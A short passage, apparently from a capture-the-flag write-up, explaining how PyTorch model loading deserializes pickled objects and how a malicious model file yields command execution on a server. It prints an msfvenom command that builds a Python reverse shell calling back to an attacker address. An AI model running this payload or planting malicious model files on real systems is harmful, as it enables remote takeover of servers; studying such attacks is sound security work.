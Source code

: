 PyTorch is infamous for its deserialization attacks. PyTorch objects are just any pickled object.

```
$ msfvenom -p cmd/unix/reverse_python LHOST=192.168.69.132 LPORT=9999 -f raw > reverse.py
```

By creating a malicious file like with solution.py's output, we can execute arbitrary commands when the model is loaded by the server.